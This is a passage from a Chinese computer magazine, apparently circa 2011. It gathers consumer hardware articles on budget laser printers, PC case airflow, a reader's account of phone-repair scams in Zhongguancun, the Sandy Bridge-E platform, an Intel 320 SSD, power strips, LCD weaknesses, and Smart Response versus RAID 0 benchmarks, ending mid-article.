经过以上几个环节的PK，相信读者对这几款普及型激光打印机的特点已有所了解。由于不同品牌均有着自己长期的技术积累，所以各有一些优势，例如佳能LASER SHOT LBP6200D的打印质量较好，而惠普LaserJet Pro P1606dn则在功能上更有优势。值得赞扬的是国货奔图P2050虽然初出茅庐，在表现上却并不输进口货太多，而且在成本上有着巨大优势。最后提醒：我们在选购时一定要牢记根据自己的需求来决定，“不求最好，但求最配”。

（文/寻欢）

### 三款产品参数比较

| 参数 | 奔图P2050 | 佳能LASER SHOT LBP6200D | 惠普LaserJet Pro P1606dn |
|------|-----------|-------------------------|--------------------------|
| 售价（元） | 2499 | 1980 | 2499 |
| 标称速度（ppm） | 20 | 25 | 25 |
| 首页输出时间（S） | 12 | 6 | 7 |
| 双面 | 手动 | 标配 | 标配 |
| 内存（MB） | 8 | 8 | 32 |
| 月负荷（页） | 20000 | 8000 | 8000 |
| 接口 | 仅连接电脑USB | 仅连接电脑USB | 连接电脑USB网卡 |
| 纸盒容量 | 150+1 | 250+1 | 250+10页多用途进纸槽 |
| 出纸盒容量 | 100 | 100 | 150 |
| 尺寸（mm） | 380×261×236 | 379×293×243 | 387×284×246 |
| 重量（kg） | 6.1 | 7 | 7 |
| 功耗（W） | 350 | 450 | 440 |
| 保修服务 | 两年 | 一年 | 一年 |
| 耗材类型容量 | Pd-100 1500页 Pd-100H 2300页 | CRG326 2100页 | CE270A 2100页 |
| 单页成本 | 0.12元 | 0.24元 | 0.27元 |

## 省电静音又舒适 机箱选择有学问

在DIY配件中，机箱往往是我们最容易忽略的配件，很多玩家都是只选择外形，钢板厚度但不在意它的风道是否合理。其实真正设计优良的机箱，它的价值在于风道的合理性，例如DELL、HP等品牌机可以将机箱做得很小，并且噪音还要好于很多DIY攒机。这就源于风道的优势，下面笔者为大家分析一下如何选择机箱与风扇的搭配，打造出品牌机般的安静、DIY攒机的性能。

### 如何理解风道

优秀的机箱风道可将热空气不断从背板抽出，并将机箱外的冷空气持续的吸入，这样的气流流动轨迹就称之为风道，有了这个风道就可使机箱内部的各个部件（显卡、CPU、主板供电部分等）得到良好的散热，同时它也决定了机箱的散热性能。英特尔早在2001年提出了CAG1.0标准，全称为Chassis Air Guide，直译中文为：“机箱空气引导设计规范”也就是那时我们俗称的38度机箱，它是英特尔提出的风道设计模板，可保证英特尔CPU附近的环境温度不高于38度。

我们在选购机箱时应该在注意机箱板厚度的同时也要加入风道的查看。目前的大部分中端机箱大多采用电源下置，这样的好处是电源可以通过自身的散热风扇从机箱底部抽入清凉的空气，而无需像传统上置电源那样，抽出的空气大部分来自于机箱内部的热风。这样大大的延长了电源的使用寿命与转换效率。同时这类型的机箱背板也会搭配一个12厘米的静音风扇来辅助排风，前面硬盘位下面会同样搭配一个12厘米的静音风扇来辅助送风，从而形成了良好的风道。

### 风扇的选购也同样重要

上面说到风扇，笔者建议玩家在购买风扇时尽量挑选转速1000转/分左右的产品，因为这个转速的风扇已经可以保证机箱内部的通气流动，（转速太高会导致机箱共振）选择机箱前后面板可安装的最大尺寸风扇，由于大风扇扇叶较大，切风量也会增大，在同样的转速下风压要比尺寸小的风扇更好，噪音却不会有所增加，在选择风扇时还应注意风扇的扇叶角度，同等转速下扇叶倾斜角度越大风压也会越大，风噪也会越大，根据自己不同的需求来选购风扇。

### 橡皮螺钉与硅胶垫片不可少

各位玩家千万不要小看这几颗橡胶螺钉、几片硅胶垫片，有了这些“小东西”我们可以很轻松的解决机箱风扇与机箱之前的共振问题，最大化地做到静音。但购买这些橡胶螺钉和硅胶垫片时玩家需注意尺寸，买错了可能无法正常使用。其实动手能力强的玩家DIY此类“小东西”效果也不错。

（文/Jason）

## 亲历中关村鼎好维修“黑幕”

多年以来，去中关村的电脑城购买电子产品时，都会对无处不在的拉客者非常厌烦。而近两年来，在中关村鼎好电子大厦的拉客者甚至转战到了大街上，他们口中的台词几乎全是：“要维修吗？”如果你不回答他们甚至会追踪你好几层楼。为什么以往并不起眼的维修服务会让他们如此卖力？一位亲历的读者通过本文揭示了其中的内幕。

我这段在中关村鼎好地下一层维修手机的经历现在来想真的是很懊悔，当初要是多想一想，不急于求成，就不会损失那么多钱了。现在能做的唯有将这段经历写下来，希望能引起广大朋友们注意，不要再被那些奸商们欺骗了。

### 成本 10 元 客服修要 650 元

笔者在前段时间不小心把自己的诺基亚N8手机的SIM卡槽弄坏（其实就是把给iPhone 4使用的小卡套在卡套上，然后插到N8里，结果拔的时候卡住了），跑到诺基亚官方客服一问，维修费居然要650元，这个SIM卡槽的实际成本只需要10元左右（淘宝上查得）。诺基亚官方维修的价格实在无法接受。此时笔者突然想到平时在中关村鼎好经常碰到拉客维修的人，那里的维修铺位也挺多，就去试一下吧。

### 第一家铺子不会修

来到鼎好地下一层，这里主要以卖水货手机为主，但几乎每家铺位都挂着维修手机的牌子，随便问了几家，报价从100到150不等，我嫌有些贵便没有停留；直到有一家报价70元，看老板说话也比较客气，就同意让他给我修。这位老板业务似乎不是很熟练，对诺基亚N8也不熟悉，花了十好几分钟才将其拆开。拆开后他研究了好一会儿，才告诉我这个SIM卡槽他没有配件，需要将手机放在他这里，等几天有配件了才能修好，我没有同意，让他把手机组装好还给我。他只好照办，然后又花了十好几分钟才把手机组装好。

### 发现被第一家动手脚

离开这家店之后，我又转了几圈，继续询问维修的事情。在B1082号铺位，一位操着广东口音的年轻人向我报价说80元能帮我把SIM卡槽修好，我见价格还算便宜就将手机交给他。这位的业务明显要熟练得多，只花了一两分钟便把我的N8手机拆得零零碎碎。在拆机过程中，他提到我的手机主板上缺了三颗螺丝。我一听急了，拿过来一看，果然有三个地方没有螺丝。我的手机是行货机，之前从来没有修过，怎么会缺螺丝呢？看来肯定是之前那个地方见我不愿意在他那里修，悄悄动了手脚，真是太无耻了！

> （事后提示：后来我在网上发帖，有人回帖说这种现象属于他们的潜规则，如果让维修的人给你拆了却又不在他那里修，都会给你做些手脚的。）

### 低价诱惑 逐渐加价

广东口音的年轻人拆开我的N8之后，用一个万用表测了好一会儿，然后告诉我说我把主板上的什么线也弄坏了，需要手工在主板上连线才行，所以80元修不好，需要两百多元才行。笔者感到有些气愤，但是心想已经转了好半天了，这家既然能修那就只好这样吧。与他砍了砍价，最终以180元的价格成交。达成协议后，他说需要四十分钟才能修好，让我自己先去周围转转，正好笔者有些饿了，所以就到附近找了麦当劳吃东西去了。

> （事后提示：先以低价诱惑，拆开之后再以各种理由加价，这应该是他们惯用的手段，再加上消费者一般都有急切想修好的心态，所以经常能够得逞。而且他所谓的“需要手工在主板上连线”后来被笔者自己拆开手机后证实并没有任何连线，估计这也是他让笔者去周围“转转”的原因吧。）

### iPhone 4 贵 维修更贵

吃完东西回来，手机的SIM卡槽已经换好了，但是B1082维修的人却说手机的信号非常弱，不知道什么原因。我拿了一看，确实不是满格，打电话试试，能够正常接通，那就这样吧。交钱的时候，笔者突然想起来自己的iPhone 4有通话时对方听不到我说话的毛病，之前一直认为是联通信号不好的原因，就随口问了问他这是怎么回事。他听了笑着说是你的iPhone 4摔过吧，把里面的一个芯片摔坏了，这种情况非常普遍。

笔者一听急了，iPhone 4确实是摔过，而且经常接不通电话非常误事，所以赶紧问他能不能修好，他说能修好，换芯片需要400元。通过一番砍价，最终以350元成交。同样的，他说需要半小时以上才能修好，我可以去周围逛逛。半小时之后，笔者回到他的铺位，发现其并不在，一问才知道他是把我的iPhone 4拿到别的地方修去了。看来他是没有更换芯片的技术，需要找别的地方才行，自己赚个差价。

### 再次被加价

再等了一会儿，那位广东口音的维修者回来了。他对我说芯片已经换好了，打电话也没问题了，但是他测量了一下发现我的iPhone 4电路上有比较严重的漏电，如果不修一下过两个月还是会把修好的芯片烧坏。笔者问怎么才能把漏电解决，他回答说需要再加200元才行。笔者感觉有些气愤，但是听他的描述不解决的话还挺严重，一时心急又答应了他。

> （事后提示：再次使用拆机后加价的手段，并且将故障夸大描述，利用顾客的急切心态而得逞。）

### 手机被修成了残疾

两个手机修好后，笔者一共花费了680元（诺基亚N8花了180元，iPhone 4花了500元），可谓开销不菲，但心想修好了也算是了解了一些麻烦。不过回到家之后，发现N8的SIM卡槽并不像以前一样好用，在更换SIM卡时必须用针将其挑出来，而不是像以前一样按一下就弹出来。

笔者立即回到维修的地方，那人似乎也知道有这个毛病，便答应重新换一个SIM卡槽。再次经过一番拆机，更换好另一个SIM卡槽之后，问题依旧存在。此时维修的人也没办法了，说不是诺基亚官方维修都这样，再换还是这样。笔者考虑到电路板在频繁高温处理后会有报废的可能（换SIM卡槽需要用高温将其焊下来），也不想再给手机动“手术”了，只好接受了这个现实，而我的手机也就落下了一个“残疾”。

> （事后提示：非官方的“山寨”维修技术实在有限，把手机修成“残废”，如果你想找他赔钱，基本是不可能的。）

## Sandy Bridge-E顶级平台抢先展望

Intel X79芯片组和LGA2011接口的Sandy Bridge-E CPU（简称SNB-E）组成的整个平台开发代号为Waimea Bay。这套新平台将完全解除目前SNB处理器以及6系列芯片组设下的超频限制，重新在BIOS中开放处理器外频调整，令骨灰玩家可以尽情挖掘SNB新架构处理器的潜能。除了超频，Sandy Bridge-E还可以为我们带来哪些呢？今天我们就带大家展望一下。

## 极限超频的回归

有资料称，Sandy Bridge-E不会像目前市售的SNB CPU一样在处理器内部集成时钟发生器，而是仍然采用传统的外置方式，同时SATA和USB等总线频率再次被锁定为一个定值。这样一来，Sandy Bridge-E就不会出现目前Sandy Bridge处理器那样基本完全无法超外频的尴尬情况（目前Sandy Bridge处理器因采用环状结构，PCI-E频率与CPU外频被强制同步，导致无法超外频），但最近也有消息称Sandy Bridge-E处理器的时钟发生器还是内置的，只是Intel在X79芯片组上做了手脚，令新平台可以自由调节许多参数。不过不论怎样，Sandy Bridge-E+X79平台完全开放超频已经是板上钉钉的事，Intel处理器的传统优势将被再次淋漓尽致地发挥出来，玩家们又可以找回X58时代那种热血沸腾的感觉了。当然，液氮的销量也会回升。

## 打造个人工作站的绝佳伴侣

X79芯片组原生支持5GT/s带宽的PCIE 2.0显卡插槽，并且可以分为两路X16或者4路X8来使用，原生支持的USB2.0接口和SATA接口数量更多达各14个（14个SATA接口中，有10个是先进的SATA 6Gb/s接口，其中的8个可以直接支持SAS），这就意味着你可以非常轻松且方便地用X79主板和SNB-E处理器打造高性能的个人工作站甚至是个人服务器，Intel此举为需要高性能计算机但又用不到Xeon那样的专业平台的消费者提供了一个折衷的解决方案，这是一个非常不错的消息。

### 小知识：什么是SAS？

SAS的全称为Serial Attached SCSI（串行连接SCSI接口），SAS是新一代的SCSI技术，和现在流行的Serial ATA（SATA）硬盘相同，都采用了串行技术以获得更高的传输速度，并通过缩短连接线长度和改善内部设计等方式来提高传输效能。SAS是在并行SCSI接口之后被开发出的全新接口技术，支持此技术的接口可以有效改善存储系统的性能，可用性和扩充性，并提供与串行ATA（也就是SATA）硬盘的良好兼容性。

## 狂热游戏玩家的可靠伙伴

Sandy Bridge-E处理器最少也拥有4个物理核心，更有6核产品供消费者选择。此外，它还拥有更大容量的缓存以及单线程和双线程等多种加速技术，并且支持4通道DDR3内存，内存频率甚至可达2666MHz或更高（目前未确定），并针对通用计算以及3D应用等方面加入了新的增强型功能。按照Intel的说法，Sandy Bridge-E+X79平台适合搭配高端独立显卡组建发烧游戏平台。可以想见，在如此火爆的参数的支撑下，加装了高端独显的X79游戏机会快如闪电。至少在这个时代，你再也找不出比它还快的游戏电脑了，就算是传说中的硬件杀手《孤岛危机2》也可轻松驾驭。

## 轻松变身媒体处理中心

Sandy Bridge-E+X79平台拥有极佳的数据计算能力，非常适合用来做计算密集型的多媒体处理工作，进行视频剪辑、批量化转片等典型应用时的效率会得到比较明显的提升，实际上，这也与Intel“小型个人工作站”的思路不谋而合，只要你肯花大价钱，就可以获得完全不同于“大众版SNB处理器+6系列主板”平台的使用体验。

距离X79以及Sandy Bridge-E正式发布还有一段不短的时间，目前已泄露的资料也存在一些尚不明确的地方，但整个Intel新一代顶级平台的特性及方向已初现端倪，我们可以从中看到不少惊喜，也能找到一些安慰。而就在刚刚结束不久的台北电脑展上被展出的隶属于ROG系列，可插双CPU并拥有多达22个SATA接口的X79样板也告诉我们：Sandy Bridge-E+X79真的是一套十分强大而且神奇的作品。

## 性能、质量和价格的最佳结合 Intel 320固态硬盘短期使用感受

下定决心买Intel 320这块固态硬盘，主要有几个原因：首先是它的芯片工艺，它使用了25nm的闪存芯片，比高端的510系列的34nm更先进，也更省电；第二点是因为它的价格，比上代的便宜了30%（尽管如此我的300GB还是花了五千大洋）。在这种情况下，早就对SSD垂涎三尺的我终于忍不住出手了。

之所以能下定决心买300GB的超大容量Intel 320，是因为这个容量的闪存芯片数量能够占满整个电路板，利用到闪存控制器的每个通道，从而得到更高的读写速度，像我的这块盘连续写入速度官方数据为205MB/s，而小容量的40GB只有可怜的45MB/s。经过我的测试，确实能达到读取260MB/s，写入210MB/s的峰值，表现惊人！

对于Intel 320的数据接口大家可能有些不满意，只使用到了3Gbps的规格。不过我感觉并没有什么大碍，因为3Gbps并没有造成瓶颈，即使用6Gbps接口，读写速度还是这么多。另外，有些朋友喜欢把SSD安装在笔记本的光驱位置上，建议不要这么做。因为光驱的接口很多都是1.5Gbps，Intel 320接在上面只有80MB/s的读写速度，大大限制了发挥。

再说说实际表现吧，在Windows 7中复制大文件时，速度稳定之后可以达到115MB/s；Windows 7的启动时间（从开机到见桌面）只需20秒（克隆系统的普通硬盘是44秒），感觉真的是飞一般！打开Firefox或者IE9浏览器都是即点即开，开PhotoShop也比以前快了一半不止，即使是用WinRAR解压缩大型文件感觉也快了不少。而且感觉复制文件时对CPU的占用也低了很多，系统不会被拖累到动弹不得。

## 选择合适机箱 安然度过酷暑

炎热的酷暑即将来临，同时随着高考及各种期末考试的结束，在接下来的几个月里，DIY市场将会迎来久违的繁荣。那么伴随着酷暑如何选购一款可以让硬件纳凉的机箱就尤为重要了，下面笔者就为大家推荐几款的“避暑”机箱。

说到避暑机箱，首先在选购之初要了解这款机箱的是否充分考虑到散热。通常普通机箱只提供简单的前进后出风道设计，前进后出即为前面板处的风扇吸入机箱外的冷气流，机箱尾部的风扇将机箱内部的热气流排出，如此往复形成一股贯穿机箱内构的风道。但很多普通机箱的前面板处并没有足够的空间容下风扇，又或是前面板没有开孔无法顺利吸入外界冷气流。还有部分机箱即使有设计，但因为五金工艺不佳，进风口成为了进灰口，久而久之反而影响了机箱内的散热。

### 全能新星 阿尔萨斯极速雷霆

极速雷霆是阿尔萨斯品牌新推出的产品，机箱设计的十分符合DIY发烧友选择，前直面面板采用冲孔网设计，加强了机箱整体的散热性。

机箱前面板、顶部、侧板和机箱尾部都有风扇孔位（原配4颗风扇），各种风道任君挑选。阻隔式散热风道设计的加入可以满足用户双风道的需求，DIY用户可以随心组建风道辅助散热。

内部空间充足，可兼容超长显卡（HD6990、GTX590）可扩展性极高。电源下置与免工具安装的加入也使这款机箱更讨DIY用户的欢心，最近有攒机需要的发烧友玩家，不妨考虑一下这款机箱，不到五百元的价格，性价比很高。

### 经典延续 航嘉暗夜公爵Ⅱ

航嘉暗夜公爵Ⅱ机箱是继暗夜公爵I后的又一产品，机箱设计简约而不简单。前面板采用全冲孔网设计，冲孔网后面有防尘网，用户无需担心灰尘进入。

机箱内构设计同样大有乾坤，硬盘采用独特硬盘笼设计，硬盘笼上安装了一颗12cm静音风扇，可以为机箱内部提供充足的冷气流，同时也为硬盘散热。

航嘉暗夜公爵Ⅱ采用当前流行的电源下置设计，将电源与机箱内部风道相隔离，不仅确保电源寿命更可以提高机箱内部热量排出。当用户将顶部和尾部风扇加装上后，整机风道形成前进后出的理想效果。只是限于售价的原因，机箱内部的空风扇位需要用户自行购买来安装了。

机箱内部采用全黑化处理，所有需要螺丝的位置都采用了免工具设计。机架边角都采用了卷边工艺，钢板厚度也值得信赖。暗夜公爵Ⅱ不到400元的售价，不俗的散热风道设计与优异的做工用料，暑期装机选它准没错。

### 先马冰麒麟i5

先马冰麒麟系列诞生有一段时间了，最近冰麒麟家族又添了一份子冰麒麟i5。冰麒麟系列近期的新品将散热的重点放在了硬盘上，随着各硬件对散热需求的不断提升，放眼整机里也就只有硬盘没有得到特别的照顾。随着人们对数据的重视程度越来越高，降低硬盘工作温度自然也就成为了保护硬盘的头等因素。

先马冰麒麟i5机箱在内构上属于中规中矩的设计，外观上则十分炫酷。整机绿色的LED灯光效果也使得这款产品与众不同，尤其是在这个价位上前面板竟然加入了风扇调速器。再加上对硬盘的照顾和不到200元的售价，相信这款产品也会俘获不少用户的心。

以上就是笔者本次为大家推荐的三款机箱啦。三款机箱各有特点，至于哪款是你心中的所属，就请各位自己对号入座了。当然对于机箱而言，主观上的感受也会成为您选购的重要参考，即使上面三款您没相中，参照设计举一反三总会找到一款适合自己的机箱。

（文/倩沙）

（文/子呆）

## 安全至上 新国标排插产品推荐

2010年6月1号不仅仅是儿童节这么简单，对于排插产业这一天正在改朝换代，旧国标已经被停产，新国标产品陆续登陆市场。新国标的制定标志着排插安全等级提高，从内部的零件到外部的壳体，都有了严格的标准。选购新国标还是很简单的，只要看插口就可以直接辨别出来。我们来简单的看一下万能插线，玩家从图中可以明显的看出，新国标的排插是独立的接口，三角的和双口的插口分开，让双口和三角插口各司其职，不再相互干扰。除了接口方面，还有其他的细节来辨别插线板：插线板的接头上会出现很多的文字标识，并且拥有详细的说明，例如说最大功率、最大电压、最大电流和国家3C认证，这也是判断的证据之一。新国标插线板都会将自己的功能特点放在上面，并且通过多少认证也会告知消费者，但是相对于旧的万能插线板，没有通过多数认证，自知理亏不会告知玩家此插线板的参数。我们可以看出插线板的包装简陋，虽然顶部有一些标识，上了多少的保险，但是此款产品，没有像航嘉插线板标志到底上了多少保险，对于终身质保的责任，万能插线板也早就抛到脑后了。新国标保护了消费者的生命安全和财产利益，而万能插线板插孔相对较大，插头容易松动，为火灾隐患埋下了伏笔，特别是夏季用电高峰时节，危险将一触即发。下面笔者为消费者们推荐几款新国标插线板，对于消费者而言，现在排插市场鱼龙混杂，质量上面不统一，价格上也是此起彼伏，笔者这次为大家推荐几款价格亲民、质量不错的排插。

### 航嘉

航嘉作为国内知名机电厂商，最近为了响应国家的号召，自家推出一系列新国标产品，同时航嘉将产品的价格放到了最低，让玩家在更换排插的时候不必担心价格的攀升。航嘉新国标系列电源的重点在于外包装，玩家可以从图中一眼识别出来，航嘉这系列排插都是紫色主题的，外包装依旧延续了之前产品的样式，有软塑料包装和硬塑料包装两款，同时航嘉将排插的功率瓦数分部较为平均。

### 公牛

下面是公牛旗下的新国标插线板，公牛系列电源在消费者心中已经到了耳熟能详的地步，在超市和零售店中，公牛系列电源的铺货很广，可以说公牛在排插中算是元老级别的了，对于排插中的先驱者，势必会响应国家的号召，推出新国标系列排插，价格定位也很亲民，同时公牛铺货面积较广，很容易买到。

### 突破

再者是突破国标系列电源，笔者推荐的此款排插，无论是做工方面还是阻燃效果，都较为出色，可以说是排插行业中精英，突破多年致力于排插的技术更新，同时也是国内消费者们最信赖的品牌之一。

| 属性 | 旧款 | 新款 |
|---|---|---|
| 外壳 | 普通塑料、化学性能不稳定、具有助燃性 | 环保阻燃材料，化学稳定性良好，具有优良的阻燃性 |
| 线材电阻率 | 电阻率40u欧姆以上 | 电阻率26u欧姆 |
| 防雷保护 | N、L两线防雷 | N、LE三线防雷PCB模块控制 |
| 过载保护 | 不到2200W跳闸、响应时间20秒 | 足额功率2500A跳闸，响应时间4秒 |
| 抗流能力 | 能抵抗3000A以下电流冲击 | 能抵抗4500A电流冲击 |
| 数字控制 | 模拟控制 | 数字控制结构性安全自动检测 过载保护、接地检测 |

## “白菜价”是否足矣 历数低端液晶五大硬伤

如今普及型液晶产品的价格已经降到“白菜价”，并且衍生出了目前火热的3D显示等新功能。不过一直到今天，液晶显示设备的几大硬伤仍然没有得到完善的解决，至少在普及型产品中这些问题都普遍存在。那么到底是哪些“硬伤”让我们耿耿于怀？今天我们就来历数一番。

### 可视角度小

由于液晶本身原理的问题（主要是TN面板），在可视角度上一直都是硬伤，我们现在能接触到的绝大多数笔记本电脑和液晶显示器（以及部分小尺寸液晶电视机）都使用的是传统的TN液晶面板，其成本低廉，但观看角度稍微偏一下就会发生偏色的现象，这是CRT所不存在的。在小尺寸显示器中这个问题不算很影响使用，但在24英寸以上的产品中就有些明显了，近期还有些普及型的27英寸的显示器都使用了TN屏，那就比较“坑人”了，虽然较高端的IPS和VA面板已经在一定程度上解决了这个问题，但价格优势又没有了，功能齐全一些的24英寸IPS显示器都在4000元左右。

### 残影是个老大难

当年第一批换上液晶的朋友在高高兴兴打开新电视看球赛时，都会瞬间变得不爽——球和球员背后都有一条讨厌的残影，不光如此，在看电影和玩游戏时这种现象也很严重，不光让人看不清画面，更严重影响心情。很多人将残影怪罪于液晶的响应时间，可实际上响应时间达到5毫秒的液晶仍然会有残影。其实最主要的原因还是液晶的显示方式，传统的CRT的电子枪在扫描完一帧图像之后和扫描下一帧画面之间的时间空档时间里屏幕是黑的；而液晶显示器上这个空档时间里仍然是在显示上一帧画面。由于人眼的视觉暂留是100毫秒，所以不可避免会有残影。

### 最佳分辨率限制

以往的CRT显示器虽然有个建议的分辨率，不过使用自定义的分辨率显示效果也不会有什么问题。但每一款液晶显示器都有一个固定的最佳分辨率，如果与输入的图像分辨率不对应，做不到“点对点”，显示效果就会很差。可如果你的显示器是1080p全高清的，游戏画面也调到1080p的话对显卡负担就会非常重，画面流畅度也会打折扣。

### 难以显示全黑画面

液晶材质本身不发光，需要荧光灯管或者LED发光二极管照亮才行。可是灯管并不能像CRT那样快速变化亮度，再加上液晶自身原理的原因，其画面的对比度一直不能让挑剔的用户满意。例如在显示物体的暗部时往往是一团模糊分不出细节，显示黑色时往往并不是深黑色，而是有一些发灰。虽然很多厂商都宣称推出了“动态对比度”达几十万比一的产品，但和CRT相比还不是那么回事。

### 色阶现象普遍

大多数的液晶电视和显示器都会碰到这个问题。在显示有渐变色的画面的时候，例如天边，是逐渐由灰色变成蓝色，这时在液晶中显示出来的就是难看的色阶，色阶在CRT时代其实也存在，但在没用经过技术处理的廉价液晶中更为严重。

### 高端显示器的解决方法

刚刚正式进入国内市场的三菱显示器展示过一款价格高达13999元的高端显示器，从本刊记者的实际体验来看，很好地解决了这些问题。下面我们就来看看其技术特点。三菱电机的“Motion Picture”技术采用脉冲式的背光在空档时间关掉液晶背光，模拟CRT的原理，从而不让人眼产生残影。此外，索尼和三菱都开发出了原理相近的技术，用芯片凭空算出相邻两帧画面之间的那一帧来，也可以有效减轻残影。而三菱的“SuperResolution”技术，是通过复杂的算法将较低的分辨率提升至高分辨率，从我们体验过的效果来看确实有效降低了分辨率不匹配时画面不好的问题。这项源自宇宙空间探测的技术对画质较差的网络视频也会有改善作用，可以减轻马赛克的现象。有一些显示器采用了提升全体对比度的技术，能将暗部的细节分辨出来，但此时原本亮的部分就非常失真了。对此三菱开发出了一种提高区域对比度的技术，能通过芯片识别出画面中的明暗区域，只对暗部进行对比度调节，而亮处并不处理，整体画质就不会有损失。而对于色阶现象，三菱使用了“10bit反差系数功能”进行处理，根据实地体验确实明显减弱了色阶的层次。总结：对于液晶这几大硬伤，虽然目前都有了可以减轻的技术，但普遍都还是用于高端产品中，千元左右还无法享受。作为消费者我们当然希望各厂商能够更加注重提高画质的技术开发，而不是简单地打价格战。

## 让老IDE接口光驱发挥余热

使用笔记本的时候，内置光驱可能是实用性仅次于USB的设备了，听CD、看碟片，必要的时候恢复系统就靠它了。可是笔记本内置光驱非常脆弱，不如台式机的皮实，而坏了更换价格又贵好几倍，有朋友介绍说买个外置光驱不就行了，可无奈最近手头较紧，外置光驱动辄上百大洋，银两不够。突然想到地下室还有个退休的台式机，除了配置低外，设备倒也运转正常，把它的光驱弄下来，也算是发挥余热了。说干就干，笔者的光驱是DVD刻录，美中不足的是接口是IDE，不过难不倒，从本地电脑城淘来一USB TO IDE连接线，网上也有卖此类套装的（数据线+电源），一般的也就几十元，回家拆包开始组装。首先将光驱调成主（MA）模式，然后把电源接好，由于个别电源线没有标注线序，注意不要接反，可以先接下电源，然后观察托盘是否可以打开，然后将数据转换线接到笔记本USB口上即可。这样，笔者只花了几十大洋，就享受到了外置光驱的优越之处，何乐而不为呢。（文/宏强）

## 智能响应 VS RAID谁占优 实测数据告诉你

当CPU、内存足够强大时，整个系统性能的瓶颈就在于磁盘，有什么方法能有效提高它的性能呢？以前本刊介绍过Intel的Z68主板中引入的智能相应技术，其精髓就是“用一块价值四五百元的SSD就能让你的大容量传统硬盘得到和SSD接近的性能”。如此诱人的宣传是否真的奏效？和传统的RAID方式相比各有何优劣？今天就通过实测来验证一下。

笔者上周升级了台式机，说是升级其实除了保留显示器、显卡外其他部件都换了。主板选择了技嘉的GA-Z68X-UD3R，支持智能响应，而笔者手头正好有两块SSD，于是一系列测试，看看用智能响应和RAID两种方式提高磁盘子系统的性能最有效。

## 测试方法以及测试软件介绍

笔者分别在单块机械硬盘（SATA II， SATA 6Gbps），用SSD来对单块机械硬盘进行加速、用两块（三块）机械硬盘组建RAID 0，以及用SSD对RAID 0进行加速等不同的组合下，用各种软件来测试磁盘性能的变化情况。在被测试硬盘上全新安装Windows 7 SP1，然后只安装芯片组、显卡驱动以及Intel快速存取技术（Intel RST）。

- 1.  HD Tune：其中的“基准”选项测试可以反应硬盘的持续读写能力。而“随机存取”选项中的4KB随机读写的速度也很重要，这个数值越大，载入程序和启动系统的速度就越快。
- 2.  PCMARK7：使用Windows Defender、视频编辑、游戏等系统地对存储系统进行评分。
- 3.  Fastcopy：其实在实际使用中，笔者发现Windows 7自带的文件复制功能速度有时候更快，不过为了方便记录时间而使用Fastcopy。
- 4.  BootRacer用来记录系统启动的时间：最终关注“Total Time to Desktop”这个选项的时间，也就是从Windows启动开始（注意：不是计算机开机，不包括BIOS硬件检测等等）到桌面准备好的时间。

## Intel智能响应性能测试

## 启用智能响应的方法

- 1.  将SSD和机械硬盘安装到主板上Intel芯片组提供的SATA接口上。注意现在有些主板会提供几个第三方芯片SATA接口，它们是不支持智能响应的。
- 2.  在CMOS设置中打开Intel SATA的RAID模式。对于笔者的主板，是在“Integrated Peripherals”中将“eXtreme Hard Drive（XHD）”改为“enabled”，此时“PCH SATA Control Mode”自动改为“RAID（XHD）”。即便只有一块机械磁盘，建议也将XHD设置为“enabled”。这样做的好处是一旦有了闲置SSD想启用智能响应时，不需要重新安装操作系统。
- 3.  在机械磁盘上重装系统及各种驱动程序。
- 4.  打开桌面任务栏右下角“英特尔快速存取技术”（Intel RST）的主菜单，在“状态”栏下可看到当前的系统存储情况，点击“启用加速”来启动智能响应的配置，然后选择用来加速的SSD，分配高速缓存的尺寸（被加速的对象，如果有多块SATA硬盘可选择加速哪一块，对于RAID 0，只支持一个卷，否则无法启动智能响应），以及加速模式。
- 5.  完成之后，在“状态”中可以看到当前磁盘的工作情况了。
- 6.  如果要改变加速模式，可以在“加速”“更改模式”来操作。
- 7.  如果不想使用加速功能，并将SSD恢复为普通磁盘，需要在“加速”“禁用加速”，然后将SSD“重置为可用”。

## 加速前后硬盘性能的对比：

笔者分别使用金士顿和Intel两个品牌的SSD来测试不同加速模式下磁盘性能的变化情况。

## 测试结果分析：

- 1.  因为智能响应是利用SSD做缓存，所以重复同样的操作（例如多次打开某一个软件之后）会加快速度，因为在笔者的系统上软件运行速度都非常快，所以很难用秒表来人为地测试出差别。HDTune测试成绩的变化也恰好能说明这一点。比如在金士顿增强模式基准测试中，第一次平均读速度为68.2MB/S，第二次就达到115.3MB/S，第三次为156.7MB/S，同样，4K随机读的成绩分别是74、2848、2867 IOPS。上表中均是使用第三次运行的成绩。
- 2.  从上表可以看出，使用智能响应会明显提高系统启动速度，即便是性能很差的这块老款金士顿SSD。除了系统启动，智能响应对Photoshop和Office这些大型软件启动的速度也有非常明显提升。
- 3.  但是，文件拷贝的速度没有任何提高，毕竟在实际应用中，很少有人会重复地拷贝同样的内容。
- 4.  很显然，SSD的性能和智能响应加速的结果密切相关，低端SSD的加速性能比高端货差很多。

| 测试磁盘 | 系统启动(秒) | HDTune顺序读(MBps) | HDTune突发(MBps) | 随机4K读(IOPS) | PCMark7系统磁盘 |
|---|---|---|---|---|---|
| 单块普通硬盘 | 23 | 98.8 | 201.5 | 72 | 2121 |
| 金士顿增强模式 | 16 | 156.7 | 37.2 | 2867 | 3660 |
| 金士顿最大化模式 | 16 | 155.2 | 38.1 | 2867 | 3711 |
| Intel增强模式 | 11 | 152.7 | 90.7 | 14372 | 4270 |
| Intel最大化模式 | 11 | 152.2 | 77.2 | 14371 | 4324 |

| 测试磁盘 | Fastcopy(MBps) Diff HDD 大 | Fastcopy(MBps) Diff HDD 小 | Fastcopy(MBps) Same HDD 大 | Fastcopy(MBps) Same HDD 小 | Winrar性能和硬件 |
|---|---|---|---|---|---|
| 单块普通硬盘 | 100.39 | 88.8 | 57.42 | 54.92 | 3522 |
| 金士顿增强模式 | 100.34 | 88.48 | 56.88 | 52.99 | 3529 |
| 金士顿最大化模式 | 100.92 | 89.06 | 56.9 | 53.1 | 3529 |
| Intel增强模式 | 101 | 87.71 | 58.8 | 57.08 | 3529 |
| Intel最大化模式 | 100.92 | 89.96 | 58.5 | 58.86 | 3503 |

## RAID 0性能测试

智能响应对于单块机械磁盘性能提高很大，但是SSD成本很高。那么RAID磁盘阵列的性能和智能响应相比孰优孰劣，还是各有长短？下面我们专门又测试了一下RAID的性能。

## 组建RAID的方法：

- 1.  首先在CMOS设置里面打开SATA RAID。笔者的主板中，在“Integrated Peripherals”中，将“PCH SATA Control Mode”改为“RAID（XHD）”。
- 2.  在BIOS POST画面后，<Ctrl>+<I>打开RAID ROM设置。
